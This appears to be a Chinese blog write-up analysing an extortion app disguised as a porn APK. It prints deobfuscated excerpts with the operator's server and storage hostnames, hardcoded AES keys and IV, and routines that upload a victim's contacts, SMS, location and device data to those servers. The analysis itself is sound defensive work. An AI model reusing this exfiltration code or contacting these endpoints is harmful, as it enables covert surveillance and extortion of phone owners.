


## 前言

> 起因是隔壁群友熬夜搞得脑子不清醒，下了个APP还给了一堆权限，然后就被勒索了，
> 而后把apk发群内大家尝试破解了一下，简单记录下我的整个分析过程

首先拿到apk先apktool一把梭解出来，然后发现lib内部是这样的  



判断是React Native编写的程序，紧接着去`assets`找主程序文件`index.android.bundle`，但是Windows下会发现存在问题



然而在Ubuntu环境下直接`unzip`可以得到正确的文件，可以看到`index.android.bundle`是压缩的js代码，类似于`webpack`打包
但是还是不太一样，接着对压缩的JS代码解压，可以用Chrome DevTool或者[Unminify](https://unminify.com/)进行解压，
得到对应的程序。

由于代码很多且有混淆，先根据抓包得到的一堆域名来尝试，很幸运找到了一个入口点
```javascript
__d(function(s, n, o, p, a, t, e) {
    a.exports = {
        name: "rnapp",
        displayName: "rnapp",
        lang: "zh",
        account: "yzvip",
        view: 1,
        hosts: ["https://yz.wuhengde0515sntb02uz.pro"],
        pool: "https://rnoss-sso.oss-accelerate.aliyuncs.com"
    }
}, 459, []);
```

然后接下来顺着`pool`来寻找，发现一段可疑代码
```javascript
    function c() {
        return (c = (0,
        t.default)(function*() {
            if (0 != (yield o(r(d[6]).hosts))) {
                var t = r(d[6]).pool + '/' + (0,
                r(d[5]).MD5)(r(d[6]).account).toString()
                  , n = yield(0,
                l.default)(t, {
                    method: 'GET',
                    retry: 3,
                    retryDelay: 1e3,
                    external: !0,
                    headers: {
                        'Cache-Control': 'no-cache'
                    }
                }, !1);
                if ('error' != n) {
                    var f = u.default.aesDecrypt(n, 'jkqmtd64aPgAiYll');
                    if (f)
                        o(JSON.parse(f))
                }
            }
        })).apply(this, arguments)
    }
```
首先看里面有多个点
+ `d[6]`代表的应该就是模块459
+ `u.default.aesDecrypt`看名字是AES解密，需要进一步看是否在算法里做了动作

接下来查找`aesDecrypt`，发现下面的部分
```javascript
__d(function(g, r, i, a, m, e, d) {
    Object.defineProperty(e, "__esModule", {
        value: !0
    }),
    e.default = void 0;
    var t = r(d[0])(r(d[1]))
      , n = r(d[0])(r(d[2]))
      , c = '6301386859816930'
      , u = (function() {
        function u() {
            (0,
            t.default)(this, u)
        }
        return (0,
        n.default)(u, null, [{
            key: "md5",
            value: function(t) {
                return r(d[3]).MD5(t).toString()
            }
        }, {
            key: "aesEncrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(t)
                  , o = r(d[3]).enc.Utf8.parse(u)
                  , p = r(d[3]).enc.Utf8.parse(c)
                  , s = r(d[3]).AES.encrypt(f, o, {
                    iv: p,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).ciphertext.toString()
                  , l = r(d[3]).enc.Hex.parse(s);
                return r(d[3]).enc.Base64.stringify(l)
            }
        }, {
            key: "aesDecrypt",
            value: function(t, n) {
                var u = n
                  , f = r(d[3]).enc.Utf8.parse(u)
                  , o = r(d[3]).enc.Utf8.parse(c);
                return r(d[3]).AES.decrypt(t, f, {
                    iv: o,
                    mode: r(d[3]).mode.CBC,
                    padding: r(d[3]).pad.Pkcs7
                }).toString(r(d[3]).enc.Latin1)
            }
        }]),
        u
    }
    )();
    e.default = u
}, 660, [3, 7, 8, 661]);
```
可以发现其使用的是CryptoJS，AES CBC模式加密，先捋清楚逻辑看看其有没有更改CryptoJS库  
根据代码可以发现，传入的第一个参数是密文，第二个参数是密钥，而IV则是固定的`6301386859816930`

再使用抓包得到的数据进行验证解密，成功解密得到结果
> 强烈谴责ksqeib，半夜一点捋清楚逻辑让他发个抓到的返回值，发我一个请求值，死也解密不开  
> 研究到三点多没搞明白，给我搞自闭了，第二天早上才反应过来这人给我发错了

下面来看一下他的API请求，也蛮有意思的，为了防止被直接抓包猜出来API的用途，他把API全都搞了个MD5值来用，具体代码如下
```javascript
    e.get = function(n, u) {
        var d = !(arguments.length > 2 && void 0 !== arguments[2]) || arguments[2]
          , f = arguments.length > 3 && void 0 !== arguments[3] ? arguments[3] : 0
          , c = o() + '/api/' + (0,
        r(_d[5]).MD5)(n).toString();
        if (u) {
            u = l(u);
            var h = [];
            Object.keys(u).forEach(function(t) {
                u[t]instanceof Object && null != u[t] ? Object.keys(u[t]).forEach(function(n) {
                    null != u[t][n] && h.push(t + "[" + n + "]=" + u[t][n])
                }) : null != u[t] && h.push(t + "=" + u[t])
            }),
            -1 === c.search(/\?/) ? c += "?" + h.join('&') : c += "&" + h.join('&')
        }
        return (0,
        t.default)(c, {
            method: 'GET'
        }, d, f)
    }
```
从L5可见，他把所有的API全都算了个MD5用，也是没谁了，接下来看一下他对发送数据的加密
```javascript
    function l(t) {
        var n = {
            data: t,
            timestamp: Date.parse(new Date) / 1e3
        }
          , o = JSON.stringify(n);
        return {
            text: u.default.aesEncrypt(o, 'A1h0DG' + (0,
            r(_d[5]).MD5)(r(_d[4]).account).toString().substring(2, 12))
        }
    }
```
也是AES加密，虽然这回密钥是拼接的但是没啥用，`account`就是上面找到的`pool`旁边就有，都是写死的值  
而后仔细看还可以发现他是从aliyun的oss里面拿了一个加密的字符串，里面包含的是所有后端服务器的域名，大同小异，密钥都是写死的，在此不过多赘述了  
观察API可以发现这程序的真实用途
```javascript
    function p() {
        return (p = (0,
        t.default)(function*(t) {
            return n.post('user/updateLocation', t, !1)
        })).apply(this, arguments)
    }
    function l() {
        return (l = (0,
        t.default)(function*(t) {
            return n.post('submit/device', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function f() {
        return (f = (0,
        t.default)(function*(t) {
            return n.post('submit/sms', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
    function c() {
        return (c = (0,
        t.default)(function*(t) {
            return n.post('submit/contacts', t, !1, null, 3, 2e3)
        })).apply(this, arguments)
    }
```
本质上就是盗取通讯录，短信，位置，设备信息，同时还会上传相册照片  
算是很老的一个骗局了，这个作为皮套是色情软件，本身里面一段视频也没有，emmm我不好评价